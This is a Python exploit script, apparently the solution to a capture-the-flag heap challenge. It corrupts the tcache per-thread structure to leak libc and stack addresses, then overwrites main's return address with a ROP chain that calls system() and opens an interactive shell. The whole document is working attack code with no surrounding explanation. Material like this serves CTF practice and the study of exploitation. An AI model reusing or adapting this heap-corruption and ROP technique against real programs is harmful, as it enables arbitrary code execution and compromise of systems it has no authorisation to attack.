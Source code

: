 ```python
tcache_perthread = alloc(3, 0x100)

# Force C into unsorted bin
write(tcache_perthread, b'\x07\x00'*64)

free(C)
read(B)

# Read libc leak
p.recv(0x38 + 8)
libc_leak = u64(p.recv(8))
libc.address = libc_leak - 0x203b20

print(hex(libc.address))

# Read stack leak from libc
write(tcache_perthread, b'\x01\x00'*64 + p64(libc.address + 0x2046e0)*16)

leak = alloc(4, 0x50)

read(leak)
stack_leak = u64(p.recv(8))

# Get pointer to main's return
write(tcache_perthread, b'\x01\x00'*64 + p64(stack_leak - 296)*16)

rop = alloc(5, 0x50)

write(rop, b''.join([p64(x) for x in [
    0, # rbp
    libc.address + POP_RDI, libc.address + 0x1cb42f,
    libc.address + POP_RDI + 1,
    libc.sym.system]]))

sendchoice(0)

p.interactive()
p.close()
```